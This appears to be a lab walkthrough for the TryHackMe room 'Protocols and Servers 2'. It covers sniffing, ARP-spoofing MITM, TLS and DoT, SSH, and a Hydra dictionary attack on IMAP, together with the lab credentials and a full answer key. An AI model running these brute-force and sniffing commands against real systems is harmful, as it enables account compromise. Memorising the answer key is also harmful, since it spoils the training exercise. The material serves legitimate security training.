

# Room 04: Protocols and Servers 2
## Comprehensive Technical Documentation (English Version)

* **Learning Path:** TryHackMe — Jr Penetration Tester
* **Parent Module:** Module 03: Network Reconnaissance
* **Official Room URL:** [https://tryhackme.com/room/protocolsandservers2](https://tryhackme.com/room/protocolsandservers2)
* **Technical Depth:** Intermediate (Protocol Exploitation, MITM & Cryptographic Defenses)
* **Estimated Duration:** 45 Minutes
* **Total Documented Tasks:** 7 Tasks (Tasks 01 – 07)

---

## 01. Room Overview
The **Protocols and Servers 2** room transitions the tester from protocol dissection into **active network exploitation and modern cryptographic hardening**:
1. **Network Sniffing Attacks:** Leveraging `tcpdump` with Berkeley Packet Filters (BPF) and `Wireshark` to intercept unencrypted Telnet and IMAP credentials.
2. **Man-in-the-Middle (MITM) Architecture:** Deconstructing Layer 2 ARP cache poisoning and contrasting the interface modes of `Ettercap` and `Bettercap`.
3. **Transport Layer Security (TLS):** Examining asymmetric handshakes, symmetric session encryption, and encrypted DNS resolution via `DoT`.
4. **Secure Shell (SSH):** Authenticating as `mark`, extracting remote Linux kernel signatures (`5.15.0-119-generic`), and conducting encrypted file exfiltration via `scp` (`415` KB).
5. **Network Password Attacks:** Executing multi-threaded dictionary attacks using `THC Hydra` against an unencrypted IMAP service to recover the `lazie` account credential (`butterfly`).

---

## 02. Learning Objectives

```mermaid
graph TD
    A[Protocols & Servers 2 Objectives] --> B[Sniffing & MITM Attacks]
    A --> C[Network Brute-Forcing]
    A --> D[Secure Remote Administration]
    A --> E[Cryptographic Transport Protocols]

    B --> B1[Master tcpdump BPF (port 23), Wireshark filters (imap), and ARP spoofing]
    C --> C1[Deploy THC Hydra and rockyou.txt against exposed application daemons]
    D --> D1[Utilize SSH and scp for remote host auditing (uname -r) and encrypted file transfer]
    E --> E1[Evaluate TLS 1.3 handshakes and configure DNS over TLS (DoT)]
```

---

## 03. Conceptual Foundations
* **Cleartext Exposure Mechanics:**
  Cleartext protocols provide zero cryptographic confidentiality. Any threat actor situated on the same Layer 2 broadcast domain or physical transit link intercepts raw credentials without finding software vulnerabilities.
* **Man-in-the-Middle (MITM) Principle:**
  By manipulating Layer 2 Address Resolution Protocol (ARP) tables, an attacker redirects traffic between target hosts and the default gateway through the attacking host, enabling passive sniffing and active payload alteration.
* **Hybrid Cryptographic Design:**
  Modern secure protocols (SSH, TLS) utilize asymmetric cryptography (RSA, ECDHE, Ed25519) to authenticate servers and establish ephemeral session keys, followed by high-throughput symmetric ciphers (AES-GCM, ChaCha20-Poly1305) for bulk payload protection.

---

## 04. Technical Deep Dive

### 1. ARP Cache Poisoning Architecture
In local Ethernet networks, hosts resolve IP addresses to physical MAC addresses via unauthenticated ARP replies:


### 2. DNS over TLS (DoT) Specifications (RFC 7858)
* Standard DNS transmits lookups in plaintext over UDP port 53.
* **DoT (RFC 7858)** wraps DNS queries inside an encrypted TLS session bound to TCP port **`853`**, eliminating plaintext domain leakage to upstream network operators.

---

## 05. Tools & Technologies Matrix

| Tool | Target Protocol | Standard Command Syntax | Operational Purpose |
|---|---|---|---|
| **tcpdump** | Layer 2/3/4 | `sudo tcpdump -i eth0 port 23` | Command-line packet capture with BPF filters |
| **Wireshark** | Packet Analysis | Display filter: `imap` | GUI deep-packet dissection and stream reconstruction |
| **Ettercap** | ARP/DNS MITM | `sudo ettercap -G` (3 interfaces) | Classic Layer 2 MITM and credential interception |
| **Bettercap** | Modular MITM | `sudo bettercap -eval "net.sniff on"` (3 modes) | Modern Go-based network reconnaissance and spoofing |
| **SSH / SCP** | TCP Port 22 | `ssh mark@IP` / `scp mark@IP:file .` | Encrypted CLI execution and authenticated file transfer |
| **THC Hydra** | Online Brute-force | `hydra -l lazie -P rockyou.txt IP imap` | Network login brute-forcing and dictionary auditing |

---

## 06. Environment & Lab Setup
* **Attack Platform:** Linux AttackBox pre-loaded with `rockyou.txt`, `hydra`, `tcpdump`, `wireshark`, `ssh`, and `scp`.
* **Target Host:** Cloud-hosted Linux server running:
  * OpenSSH daemon on port 22 (User: `mark` / Password: `XBtc49AB`).
  * Linux Kernel build: `5.15.0-119-generic`.
  * Target file: `book.txt` (415 KB).
  * Dovecot IMAP daemon on port 143 (User: `lazie` / Password: `butterfly`).

---

## 07. Step-by-Step Practical Walkthrough

### Step 1: Packet Sniffing Filter Isolation (Task 2)
1. In `tcpdump`, filter specifically for Telnet traffic: **`port 23`**.
2. In `Wireshark`, apply display filter for IMAP: **`imap`**.

### Step 2: MITM Framework Interface Modes (Task 3)
1. Number of distinct interfaces provided by Ettercap (GUI, NCurses, Text/CLI): **`3`**.
2. Number of invocation modes supported by Bettercap (Interactive CLI, Caplets, Web UI): **`3`**.

### Step 3: Transport Layer Security & Encrypted DNS (Task 4)
* Three-letter acronym for DNS secured directly over TLS: **`DoT`** (Port 853).

### Step 4: Encrypted Administration & Host Reconnaissance via SSH (Task 5)
1. Open SSH connection:
   ```bash
   ssh mark@MACHINE_IP
   # Password: XBtc49AB
   ```
2. Identify kernel release:
   ```bash
   uname -r
   ```
   * **Extracted Kernel Release:** `5.15.0-119-generic`.
3. Download target file via Secure Copy (`scp`):
   ```bash
   scp mark@MACHINE_IP:book.txt .
   ```
   * Download size reported in progress bar: **`415`** KB.

### Step 5: Online IMAP Password Brute-forcing via Hydra (Task 6)
1. Execute dictionary attack against the `lazie` account:
   ```bash
   hydra -l lazie -P /usr/share/wordlists/rockyou.txt MACHINE_IP imap
   ```
2. Recover valid cleartext password:
   * **Password:** `butterfly`.

---

## 08. Output Analysis & Interpretation
```text
================================================================================
THC HYDRA IMAP BRUTE-FORCE LOG
================================================================================
Hydra v9.3 (c) 2022 by van Hauser / THC - www.thc.org
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries
[143][imap] host: MACHINE_IP   login: lazie   password: butterfly
1 of 1 target successfully completed, 1 valid password found
--------------------------------------------------------------------------------
[SECURITY INTERPRETATION]:
1. Target Service: Dovecot IMAP Daemon (Port 143)
2. Compromised User: lazie
3. Recovered Secret: butterfly
4. Architectural Flaws: Cleartext authentication, absence of lockout or IP rate limits.
================================================================================
```

---

## 09. Vulnerabilities & Exploitation Vectors
1. **Weak Dictionary Passwords:**
   Common dictionary words (`butterfly`) are trivial to compromise within minutes using standard wordlists like `rockyou.txt`.
2. **Missing Rate-Limiting & Lockouts:**
   The IMAP service accepts unrestricted rapid authentication requests without dropping or delaying connections.

---

## 10. Remediation & Enterprise Defense
1. **Layer 2 Switch Hardening:**
   * Enable **Dynamic ARP Inspection (DAI)** and **DHCP Snooping** on all access switch ports to drop rogue ARP announcements.
2. **Brute-Force Prevention:**
   * Deploy **Fail2ban** or PAM rate-limiting to temporarily firewall source IPs after repeated failed login attempts.
   * Enforce **NIST SP 800-63B** password complexity rules and mandate Multi-Factor Authentication (MFA).
3. **Cryptographic Migration:**
   * Mandate TLS 1.3 across all application daemons and decommission cleartext ports (21, 23, 80, 110, 143).

---

## 11. Real-World Penetration Testing Context
In internal penetration tests, gaining physical or logical Layer 2 network access makes ARP spoofing and NetBIOS/LLMNR poisoning (via Responder) the primary vector for capturing administrative NTLMv2 hashes and session cookies.

---

## 12. Cross-Topic Synthesis
Completing this room equips the tester with hands-on exploitation and defense capabilities, leading directly into:
* **Topic Transition Recap (Room 05):** Comprehensive synthesis of Module 03 knowledge.
* **Nmap Module (Module 04):** Advanced network discovery, SYN/FIN/Xmas port scans, and NSE script auditing.

---

## 13. Summary Reference & Command Cheat Sheet

```bash
# 1. Sniff port 23 traffic with full ASCII payload output
sudo tcpdump -i eth0 -A -n port 23

# 2. Brute-force IMAP authentication using Hydra
hydra -l <USER> -P /usr/share/wordlists/rockyou.txt <TARGET_IP> imap

# 3. Secure SSH interactive login
ssh mark@<TARGET_IP>

# 4. Download file encrypted over SSH tunnel
scp mark@<TARGET_IP>:book.txt .
```

---

## 14. Verification & Review Questions

| # | Question | Verified Ground Truth |
|---|---|:---:|
| 1 | What do you add to sudo tcpdump to capture only Telnet? | **`port 23`** |
| 2 | Simplest display filter in Wireshark for IMAP traffic? | **`imap`** |
| 3 | Number of distinct interfaces offered by Ettercap? | **`3`** |
| 4 | Number of invocation methods supported by Bettercap? | **`3`** |
| 5 | Three-letter acronym for DNS protocol utilizing TLS? | **`DoT`** |
| 6 | Kernel release identified via uname -r on target? | **`5.15.0-119-generic`** |
| 7 | Download size in KBs displayed by scp for book.txt? | **`415`** |
| 8 | Password used to access the IMAP service for lazie? | **`butterfly`** |
